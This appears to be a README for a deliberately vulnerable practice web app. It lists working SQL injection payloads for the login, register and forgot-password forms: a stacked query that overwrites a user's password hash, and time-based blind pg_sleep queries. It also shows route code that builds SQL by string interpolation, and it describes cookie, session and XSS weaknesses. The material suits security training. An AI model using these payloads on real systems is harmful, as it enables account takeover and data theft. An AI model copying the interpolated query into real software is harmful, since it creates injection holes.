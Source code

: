  

## SQL Injection Steps

* Bypass login function with sql injection
 - The following can be used to guess a password, but you can change the query accordingly
 ```
 /login password field, replaces your hash!
 test'; INSERT INTO users (username,password) VALUES ('test', '$2y$10$x6PXZnQoodybWH/kmtwEQeKf7PasRSGvb7zaEQ.y0xGFrbntiUqpW') ON CONFLICT (username) DO UPDATE SET password='$2y$10$x6PXZnQoodybWH/kmtwEQeKf7PasRSGvb7zaEQ.y0xGFrbntiUqpW';--
 ```
 - Possible variation assuming we DON'T know the name of the password field.
```
test'; SELECT CASE WHEN ((SELECT password from users where username='admin'))='admin1' THEN (select pg_sleep(5)) ELSE NULL END;--
``` 

* Try a blind scenario to get the DB name
- If your database name is "postgres" this will work otherwise use something like intruder to build out the query and dump the db name based on time responses

```
/register username field
johnny','test'); SELECT CASE WHEN (SUBSTR((SELECT current_database()),1,1))='a' THEN (select pg_sleep(3)) ELSE NULL END;--
```
 - Read Jakes blog about safe sql injection!

* Set up a reflected scenario that will print SQL results to you in the UI and get info from it

```
/forgot
router.post('/forgot', async function(req, res, next) {
  console.log(`SELECT * from users where username='${req.body.username}';`);
  var db_response = await client.query(`SELECT * from users where username='${req.body.username}';`);
  console.log(db_response);
  var username_return = '';
  db_response.rows.forEach(element => username_return+=element.username);
  res.render('forgot_valid',{user:username_return});
});
```
Try and send a password reset for username `' OR '1'='1`


 SELECT current_database()

 test'; SELECT CASE WHEN ((SELECT password from users where username='admin'))='admin1' THEN (select pg_sleep(5)) ELSE NULL END;--

## Cookie vulns

### Boils down to 2 vulns, weakness in token generation or weakness in session token handling

#### Weakness in token generation
  <b>Predicatble tokens</b>
 * Current cookie creation does not implement sufficient entropy, thus the cookies are brute forceable!
 Cookie follows general pattern of `xyz$d$d$d$d$d` where `$d` represents a number 0-9
 * Immediately noticeable pattern
 
#### Weakness in session handling

<b>Disclosure of Tokens on Network</b>
* Not using HTTPS, application and client are sending session token over the network in plain text.

<b>Vulnerable mapping of tokens to sessions</b>
* Multiple valid tokens are allowed to be assigned concurrently to the same user account

<b>Vulnerable session termination</b>
* No logout function
* Cookies do not time out browser side
* Server does not perform session destruction, auth token still associated with the user on the backend for whom it was issued

* <i>SQL Injection note: passwords are bcrypt hashed, however if you are able to dump the sessions table, since the sessions are persistent theres no reason to go for the passwords as you can just simply use an auth token to authenticate as a user</i>

<b>Cookie scope</b>
* Session cookies are not scoped to a particular domain


* Token currently not sent in hidden form field! CSRF is much easier in that case

## XSS

### Stored XSS

* Stored XSS possible in the comment section, with `Access-Control-Allow-Origin:*` CSRF is readily available.

### Dom based

<b>Dom Based - TLDr;</b>
Data from a client/attacker controlled source is ultimately passed to an unsafe JS object that renders the input to the HTML using methods that support dynamic exection such as `eval()` or `innerHTML()`
